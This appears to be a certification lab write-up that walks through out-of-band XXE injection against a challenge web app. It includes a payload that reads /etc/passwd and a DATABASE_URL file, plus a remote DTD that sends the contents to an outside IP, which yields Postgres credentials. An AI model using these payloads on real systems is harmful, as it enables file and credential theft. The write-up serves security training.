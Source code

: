 ```yaml
---
title: Challenge 12:When things aren't working, go out of band
date: 2024-05-15 05:04:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     ## TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. XXE INJECTION

**Proof-of-Concept (POC):**

There is a field “tags” where the system can query the available tags that has been created before on the website

![POC-otb](/img/cwae/wta1.png){: w="400" h="400" }{: .normal }

This is how the server response when we are calling the /tags endpoint. It will listed all tags that are available. 

![POC-otb](/img/cwae/wta2.png){: w="400" h="400" }{: .normal }

With the same technique XXE before, I try to change the content type of Json to XML format and the server seems accept the format too. You can see how the <tag> there. So maybe we can try XXE attack too ?

![POC-otb](/img/cwae/wta3.png){: w="400" h="400" }{: .normal }

However, when I send the same payload as before for XXE, the server did not respond anything. So, we cannot prove if this is vulnerable or not. We need to use Out of Band Technique.

![POC-otb](/img/cwae/wta4.png){: w="400" h="400" }{: .normal }

Out-of-band XXE (XML External Entity) injection is a technique used to exploit XML processors that support external entities, allowing an attacker to extract data from a server without receiving the actual response in-band with the HTTP response.
I will send malicious XML data to the server, typically containing references to an external entity defined in a Document Type Definition (DTD) file. This DTD file is hosted on our VPS server When the server processes the XML input, it resolves the external entity reference, causing the server to make a request to my controlled server to retrieve the entity content.

Payload sends to server
```jsx
<!DOCTYPE data [<!ENTITY % init SYSTEM "file:///etc/passwd"> 
  <!ENTITY % dtd SYSTEM "http://143.198.205.200:9003/d.dtd"> %dtd;]> 
<data>&send;</data>
```

dtd File created in remote server
```jsx
<!ENTITY % all "<!ENTITY send SYSTEM 'http://143.198.205.200:8090/?collect=%init;'> "> %all;
```
![POC-otb](/img/cwae/wta5.png){: w="400" h="400" }{: .normal }

I start to send the payload to the server. We can see the left side showing us the d.dtd is downloaded by the server. However, the /etc/passwd is not showing inside our listeners. 

![POC-otb](/img/cwae/wta6.png){: w="400" h="400" }{: .normal }

We must step back and see what the problem is here. The dtd file is already correct but somehow no result. Something error at the payload send to the server I guess. Previous challenges, we already performed port scanning to the target. We saw a port that is unknown. Further checking, it is a Postgres DB. So, we must change our payload.

![POC-otb](/img/cwae/wta7.png){: w="400" h="400" }{: .normal }


In PostgreSQL, /tmp/env/DATABASE_URL is likely a reference to a temporary file path where an environment variable called DATABASE_URL might be stored. So, we change the /etc/passwd to /tmp/env/DATABASE_URL and send again the request. You can see, our listener starting to collect the response from server. If you noticed, the line there refer to Postgres username and password. We can try it.. 

![POC-otb](/img/cwae/wta8.png){: w="400" h="400" }{: .normal }

We can now successfully login to the Postgres using the username and password.

![POC-otb](/img/cwae/wta9.png){: w="400" h="400" }{: .normal }
